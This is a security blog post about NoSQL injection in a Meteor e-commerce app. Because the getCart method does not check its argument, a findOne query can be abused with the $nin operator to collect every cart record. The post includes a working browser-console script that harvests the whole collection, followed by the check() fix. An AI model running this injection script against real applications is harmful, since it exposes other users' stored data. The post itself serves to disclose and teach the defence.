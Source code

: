 ```yaml
---
layout: post
title:  "Exploiting findOne to Aggregate Collection Data"
titleParts: ["Exploiting findOne", "to Aggregate Collection Data"]
description: "With some clever querying, 'findOne' MongoDB queries can be explored to aggregate an entire collection's worth of data on behalf of an attacking user."
author: "Pete Corey"
date:   2015-07-21
tags: ["Javascript", "Meteor", "Security", "NoSQL Injection"]
---
```


After watching [Rob Conery's](http://rob.conery.io/) awesome [series of screencasts](http://www.pluralsight.com/courses/discussion/meteorjs-web-application) detailing how to build an eCommerce application using [Meteor](https://www.meteor.com/), I was excited to dig into his code. Along with [finding a few other security vulnerabilities](https://github.com/robconery/meteor-shop/pull/1), I had fun playing with an interesting way of exploiting a <code class="language-javascript">findOne</code> query to aggregate data from a Mongo collection.

To get started, take a look at this <code class="language-javascript">getCart</code> method defined in [shopping_cart.js:30-32](https://github.com/robconery/meteor-shop/blob/d667a93ba3a116f1d65534b384099bc9e8230e80/lib/shopping_cart.js#L30-L32):

<pre class="language-javascript"><code class="language-javascript">getCart : function(userKey){
  return Carts.getCart(userKey);
}
</code></pre>

And the corresponding <code class="language-javascript">Carts.getCart</code> method in [carts.js](https://github.com/robconery/meteor-shop/blob/d667a93ba3a116f1d65534b384099bc9e8230e80/lib/collections/carts.js#L3-L25):

<pre class="language-javascript"><code class="language-javascript">Carts.getCart = function(userKey){
  var cart = Carts.findOne({userKey : userKey});
  ...
  return cart;
};
</code></pre>

The first thing you'll notice (I hope) is that the <code class="language-javascript">userKey</code> argument isn't being checked. Your horror may be tempered, though, when you notice that it's being passed into a <code class="language-javascript">findOne</code> query instead of a <code class="language-javascript">find</code>.

What's the worst thing a hacker could do? Sure, they might get a single random Cart by passing in a query like <code class="language-javascript">{$gt: ''}</code>, but it's not like they can get at our whole collection, right?

... Right?!

<hr/>

Well, it turns out you can easily pull down all data from a collection using a <code class="language-javascript">findOne</code> query. Take a look at some code a malicious user could run in their browser's console to do just that:

<pre class="language-javascript"><code class="language-javascript">var carts = [];
function getCartAndSave(userKeys) {
    Meteor.call('getCart', {$nin: userKeys}, function(e, r) {
        if (e || !r || !r._id) {
            return;
        }
        carts.push(r);
        userKeys.push(r.userKey);
        getCartAndSave(userKeys);
    });
}
getCartAndSave(['']);
</code></pre>

And just like that, the entire <code class="language-javascript">carts</code> collection has been pulled down to the client. Let's dig into the code to see what's going on.

The key here is the <code class="language-javascript">$nin</code> [query operator](http://docs.mongodb.org/manual/reference/operator/query/nin/). We begin by calling <code class="language-javascript">getCart</code> and asking for a Cart who's <code class="language-javascript">userKey</code> is not in (<code class="language-javascript">$nin</code>) the array <code class="language-javascript">['']</code>. This will return a random Cart. We push this cart's <code class="language-javascript">userKey</code> onto the array and ask for a Cart who's <code class="language-javascript">userKey</code> is not in that array. This will return another random Cart from the collection that we haven't yet seen. We repeat this process until there are no more Carts to find, and we've aggregated all of the Carts on the client.

Now Mr. Malicious User can take his time perusing your potentially sensitive data.

<hr/>

Like most Meteor security issues, the fix for this is to [check](http://docs.meteor.com/#/full/check) your user-provided arguments:

<pre class="language-javascript"><code class="language-javascript">getCart : function(userKey){
  check(userKey, String);
  return Carts.getCart(userKey);
}
</code></pre>

Now, a malicious user can't pass an object into the <code class="language-javascript">getCart</code> method. They may only pass a String, and will only be able to find a Cart if they know its <code class="language-javascript">userKey</code>.

Never allow users to pass arbitrary data into your queries!
